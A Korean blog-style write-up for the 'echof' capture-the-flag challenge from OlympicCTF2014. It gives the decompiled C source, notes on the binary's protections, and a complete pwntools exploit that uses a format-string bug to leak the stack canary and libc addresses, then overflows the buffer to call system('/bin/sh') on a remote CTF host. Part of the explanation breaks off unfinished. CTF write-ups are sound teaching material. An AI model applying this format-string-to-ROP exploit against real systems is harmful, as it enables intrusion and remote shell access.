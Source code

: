 ```yaml
---
layout: post
title: Writeup - echof (from OlympicCTF2014)
---
```

# echof

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *result; // eax
  int *v4; // eax
  signed int i; // [esp+30h] [ebp-110h]
  size_t v6; // [esp+34h] [ebp-10Ch]
  int *mm; // [esp+38h] [ebp-108h]
  char buf; // [esp+3Ch] [ebp-104h]
  unsigned int v9; // [esp+13Ch] [ebp-4h]

  v9 = __readgsdword(0x14u);
  puts("pw?");
  fflush(stdout);
  read(0, &buf, 8u);
  result = (int *)memcmp(&buf, "letmein\n", 8u);
  if ( !result )
  {
    for ( i = 0; i <= 15; ++i )
    {
      puts("msg?");
      fflush(stdout);
      bzero(&buf, 0x100u);
      read(0, &buf, 0x80u);
      v6 = strlen(&buf);
      if ( strchr(&buf, 'n') )
        return puts("i hate this symbol!");
      mm = (int *)mmap(0x11111000, 0x1000, 3, 50, -1, 0);
      if ( mm == (int *)-1 || !mm )
      {
        perror("mmap");
        exit(-1);
      }
      v4 = mm + 33;
      *v4 = 'ruoY';
      v4[1] = 'sem ';
      v4[2] = 'egas';
      v4[3] = 'd%( ';
      v4[4] = 'tyb ';
      v4[5] = ':)se';
      v4[6] = '\ns% ';
      *((_BYTE *)v4 + 28) = 0;
      mm[32] = (int)(mm + 33);
      strncpy((char *)mm, &buf, 0x80u);
      *((_BYTE *)mm + v6) = 0;
      sprintf(&buf, (const char *)mm[32], v6, mm);
      puts(&buf);
      fflush(stdout);
      result = (int *)munmap(mm, 0x1000u);
    }
  }
  return (int)result;
}
```
## 관찰
NX, ASLR, PIE, stack canary, full RELRO가 모두 걸려있는 바이너리이다.

buf를 0x80 바이트로 꽉꽉 채워 `mm[32]`의 least significant byte를 0으로 덮어씌우면 원래 `mm[33]`을 가리키던 주소가 `mm[0]`로 바뀌어 마음대로 FSB를 할 수 있게 된다. buf가 널널하므로 쉽게쉽게 FSB를 사용할 수 있다.
Full RELRO가 적용되어 있으므로 got overwrite가 불가능하고 ROP로 문제를 해결해야 한다. ROP를 하기 위해서는
1.  libc system 함수와 /bin/sh string의 위치
2.  stack canary 값
을 알아야 한다.

1을 얻기 위해서는 FSB를 통해 got의 값을 아무거나 읽으면 된다. 하지만 PIE가 적용되어 있어 got의 위치가 매번 바뀐다. 이는 return address를 선제적으로 알아내  code 영역의 base를 구함으로서 해결할 수 있다. return address에서 got까지 상대적인 거리는 일정하다는 점을 이용하는 것이다.
2 또한 

PIE가 적용되어 있으므로 libc를

## 풀이
```python
from pwn import * 

#p = process("./echof")
p = remote("remote.goatskin.kr", 49281)
context.log_level = "debug"

# Step 1: leak code offset &
payload1 = "%80$x|%78$x|"
payload1 += (128 - len(payload1))*"A"

p.send("letmein\n")
p.send(payload1)
p.recvuntil("msg?\n")
p_ret_raw = p.recvuntil("|")[:-1]
canary_raw = p.recvuntil("|")[:-1]
p_ret = int(p_ret_raw, 16)
canary = int(canary_raw, 16)
base_code = p_ret - 0x840

log.info("canary: " + hex(canary))

# Step 2: read got w/ FSB
offset_got_lsm = 0x1FD8
payload2 = p32(base_code + offset_got_lsm) + "%14$s|"
payload2 += (128 - len(payload2))*"A"
p.send(payload2)
p.recvuntil("msg?\n")
p_lsm_raw = p.recvuntil("|")[4:8]
p_lsm = u32(p_lsm_raw)

p_system = p_lsm + 0x22c70
p_sh = p_lsm + 0x147133
log.info("p_lsm: " + hex(p_lsm))

# Step 3: bof

payload3 = "%256c" + "%78$c" + p32(canary)[1:]
payload3 += p32(p_system)*5 + p32(p_sh)
payload3 += (128 - len(payload3))*"A"
p.send(payload3)

context.log_level = "info"
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQwMzY0NzEyMSwtMTQwOTk0MjQxNiwtMj
EyODAzMjIzMl19
-->